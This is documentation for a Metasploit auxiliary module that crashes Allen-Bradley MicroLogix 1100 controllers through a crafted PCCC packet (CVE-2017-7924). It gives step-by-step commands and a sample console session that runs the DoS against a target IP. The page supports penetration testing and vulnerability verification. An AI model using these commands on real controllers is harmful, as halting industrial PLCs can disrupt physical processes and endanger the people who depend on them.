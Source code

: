 ## Vulnerable Application

  A remote, unauthenticated attacker could send a single, specially crafted Programmable Controller Communication Commands (PCCC) packet to the controller that could potentially cause the controller to enter a DoS condition.
  MicroLogix 1100 controllers are affected: 1763-L16BWA, 1763-L16AWA, 1763-L16BBB, and 1763-L16DWD. 
  CVE-2017-7924 has been assigned to this vulnerability.
 A CVSS v3 base score of 7.5 has been assigned.

## Verification Steps

  1. Do: `use auxiliary/dos/scada/allen_bradley_pccc`
  2. Do: `set RHOST=IP` where IP is the IP address of the target
  3. Do: `check` verify if target is vulnerable
  4. Do: `exploit` send DoS packet

## Options

  1. PORT: `set RPORT=44818`

## Scenarios

  ```
msf > use auxiliary/dos/scada/allen_bradley_pccc 
msf auxiliary(dos/scada/allen_bradley_pccc) > set RHOST 172.27.248.194
RHOST => 172.27.248.194
msf auxiliary(dos/scada/allen_bradley_pccc) > check

[*] 172.27.248.194:44818 - Product Name: 1763-L16BWA B/14.00
[+] 172.27.248.194:44818 - The target is vulnerable.
msf auxiliary(dos/scada/allen_bradley_pccc) > exploit

[*] 172.27.248.194:44818 - Ethernet/IP - Session created (id 0xaf79a666)
[*] 172.27.248.194:44818 - CIP Connection Manager - Forward Open Success (Connection id 0x66a66e85)
[*] 172.27.248.194:44818 - Sending PCCC DoS magic packet...
[*] Auxiliary module execution completed
```

